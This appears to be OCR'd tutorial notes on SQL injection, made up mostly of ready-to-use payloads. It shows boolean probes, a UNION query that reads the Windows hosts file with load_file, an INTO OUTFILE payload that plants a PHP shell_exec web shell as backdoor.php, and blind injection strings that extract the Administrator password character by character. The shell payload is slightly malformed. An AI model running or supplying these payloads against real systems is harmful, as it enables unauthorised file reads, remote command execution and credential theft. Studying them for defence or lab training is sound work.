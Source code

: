 We can also try with an and to see if it brings results or not


```
id=6 and 1=1
id=6 and 1=2
```

We ASSUME it is injectable and look for a file with load_file

```
id=738 union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

We create a php


```
id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd'];?>",6 into OUTFILE'c:/xampp/htdocs/backdoor.php'
```

With blind SQL injection vulnerabilities, many techniques such as UNION attacks are not effective

## Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using an SQL query like this:

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized TrackingId was submitted), then a “Welcome back” message is displayed within the page.

```
xyz' UNION SELECT 'a' WHERE 1=1-- << shows welcome back
xyz' UNION SELECT 'a' WHERE 1=2--  << shows nothing
```

try to gues the password for Administrator:

```
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'--
```

We can continue this process to systematically determine the full password for the Administrator user.
